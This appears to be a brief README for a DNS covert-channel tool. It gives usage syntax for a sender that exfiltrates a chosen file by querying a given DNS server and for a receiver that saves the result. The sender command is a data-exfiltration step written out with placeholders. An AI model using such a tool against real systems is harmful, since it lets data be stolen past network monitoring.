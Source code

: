 # DNS-Covert-Channel

## Use

### Sending
Proper syntax is ./sender --fileIn <filepath> --dns <IP>
- filepath points to the file to exfiltrate
- IP is the DNS server to query

### Receiving
Proper syntax is ./receiver --fileOut <filepath>
- filepath is the location to save the output